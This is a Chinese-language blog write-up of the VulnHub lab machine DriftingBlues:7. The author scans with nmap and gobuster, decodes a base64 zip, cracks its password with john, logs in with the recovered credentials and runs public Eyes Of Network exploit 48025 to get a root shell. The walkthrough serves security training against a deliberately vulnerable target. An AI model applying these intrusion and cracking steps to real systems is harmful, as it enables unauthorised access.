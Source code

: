 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/PtyZ0baADyNVcNZMjiHKeg)

 ![](http://mmbiz.qpic.cn/mmbiz_png/7gUQD4TbLUsGamtQXiblwiaPhT11gUfcWibGaGzbdzpL0N1UGmGdGP78y7DW7sCUOicTibjbBZHrHewj9uP2Tx3yPiaw/0?wx_fmt=png) ** 伏波路上学安全 ** 专注于渗透测试、代码审计等安全技术，分享安全知识. 44篇原创内容   公众号

![图片](https://mmbiz.qpic.cn/mmbiz_png/7gUQD4TbLUsnlyGoibkL3lHsxkIaszlCEqOffjibbdXoliaDwgX4X2IUia72IGCZUZnjabTpPJDpFAqzkGfB0TsUeQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)  

靶机信息
----

下载地址:

```
https://www.vulnhub.com/entry/driftingblues-7,680/
```

靶场: VulnHub.com

靶机名称: DriftingBlues:7

难度: 简单

发布时间: 2021年4月12日

提示信息:

```
无
```

目标: flag.txt

  

实验环境
----

```
`攻击机:VMware kali 192.168.7.3``靶机:Vbox linux IP自动获取`
```

信息收集  

-------

### 扫描主机

扫描局域网内的靶机IP地址

```
sudo nmap -sP 192.168.7.1/24
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

扫描到主机地址为192.168.7.193

### 扫描端口

扫描靶机开放的服务端口

```
sudo nmap -sC -sV -p- 192.168.7.193 -oN 7.nmap
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

扫描到多个开放端口:

```
`22:SSH``66:HTTP(Python 2.7.5)``80:HTTP(Apache httpd 2.4.6)``111:RPC``443:HTTPS(Apache httpd 2.4.6)``2403:taskmaster2000?``3306:MYSQL(MariaDB)``8086:HTTP(InfluxDB http admin 1.7.9)`
```

Web渗透  

先来访问80端口

```
http://192.168.7.193
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

访问后跳转到443端口，页面显示Eyes Of Network，这是一套IT架构管理系统，这套系统有很多漏洞，但是我们不确定版本，先看看其他端口

```
http://192.168.7.193:66
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

一个常规站点，先做个目录扫描

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.7.193:66 -x php,html,txt,zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

找到一个flag，打开看看

```
curl http://192.168.7.193:66/flag.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

拿到第1个flag，再看看eon是什么

```
curl http://192.168.7.193:66/eon
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

发现4段加密字符串，拿去识别一下

```
https://www.dcode.fr/identification-chiffrement
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

识别到是base64加密，我们解一下

```
echo 'UEsDBBQAAQAAAAOfg1LxSVvWHwAAABMAAAAJAAAAY3JlZHMudHh093OsvnCY1d4tLCZqMvRD+ZUU' | base64 -d
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

显示的不完整，我们把几段连起来试试

```
echo 'UEsDBBQAAQAAAAOfg1LxSVvWHwAAABMAAAAJAAAAY3JlZHMudHh093OsvnCY1d4tLCZqMvRD+ZUURw+5YmOf9bS11scvmFBLAQI/ABQAAQAAAAOfg1LxSVvWHwAAABMAAAAJACQAAAAAAAAAIAAAAAAAAABjcmVkcy50eHQKACAAAAAAAAEAGABssaU7qijXAYPcazaqKNcBg9xrNqoo1wFQSwUGAAAAAAEAAQBbAAAARgAAAAAA' | base64 -d
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

看起来像是文件，我们用base64转文件试试

```
https://base64.guru/converter/decode/file
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

生成一个压缩包，下载下来解压看看

```
unzip application.zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

需要密码，用John暴破密码

1。生成密码hash值

```
zip2john application.zip >hash
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

2。暴破密码

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

拿到密码killah，解压文件

```
`unzip application.zip``ls``cat creds.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

拿到用户名admin和密码isitreal31__，拿去登录后台试试

```
https://192.168.7.193/login.php
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

登录成功，我们看看有什么功能或者版本号

```
https://192.168.7.193/module/help_about/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

功能很多但是不会用，还好找到了版本号，去查一下是否可以利用

```
searchsploit eyesofnetwork
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

exp有很多，挑一个看起来很好搞的试试，先下载exp

```
searchsploit -m 48025
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

查看下exp内容

```
cat 48025.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

是个python3脚本，我们把文件扩展名改一下再执行试试

```
`mv 48025.txt 48025.py``python3 48025.py`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

有提示使用方法，来验证一下

执行exp

```
python3 48025.py https://192.168.7.193 -ip 192.168.7.3
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

这个参数我没搞懂，开始以为是反弹shell，执行后发现不需要，去掉端口号仍然可以getshell，

拿到root权限 ，找一下flag

```
`cd /root``ls``cat flag.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

这不是我们目录扫描时拿到的flag吗，不管怎么样拿到了root权限，游戏结束。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

END

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**这篇文章到这里就结束了,喜欢打靶的小伙伴可以关注"伏波路上学安全"微信公众号,或扫描下面二维码关注,我会持续更新打靶文章,让我们一起在打靶中学习进步吧.**

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)